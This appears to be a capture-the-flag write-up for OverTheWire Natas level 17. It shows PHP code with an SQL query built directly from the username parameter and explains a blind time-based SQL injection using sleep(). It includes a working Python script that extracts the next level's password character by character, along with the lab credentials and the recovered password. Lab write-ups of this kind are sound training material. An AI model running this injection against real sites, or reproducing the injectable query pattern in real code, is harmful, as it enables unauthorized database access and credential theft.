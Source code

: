 # Writeup level 17
In this challenge we can ask for a username and check it's existence. However we won't get a result this time. Luckily this code is vulnerabel to **SQL-Injection** and SQL has some nice functions that we can use to get a result.

**Source Code**  
```php
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas17', '<censored>');
    mysql_select_db('natas17', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysql_close($link);
}
```

**Exploit**  
Okay since we won't get a result in form of a text, we kind of have to try to figure something out with SQL. Like I said before SQL has some nice functions that can help us. For instance we can use something a function to delay the response when we guessed the correct character of the password. In this case I am going to use my older exploit from level 15 and just modify the SQL-Injection part.  
**SQL-Injection**:  
```sql
SELECT * from users where username="natas18" AND password LIKE BINARY {ourpw}% AND sleep(2);-- -
```

```python
import requests
import string

symbols = string.printable[:62]
password = ""
char = 0

while char != 62:
	temp_pw = password
	password += symbols[char]
	# SQL: SELECT * from users where username="natas18" AND password LIKE BINARY {ourpw}% AND sleep(2);-- -"
	sql_injection = f"\" AND password LIKE BINARY \"{password}%\" AND sleep(2);-- -"
	postdata = {'username': 'natas18' + sql_injection}
	r = requests.post('http://natas17.natas.labs.overthewire.org/?debug=true', data=postdata, auth=('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw'))

	if(r.elapsed.total_seconds() >= 2):
		char = 0
	else:	
		char += 1
		password = temp_pw
	
	print(f"Password is: {password}")

# xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
```

The password is:  
xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
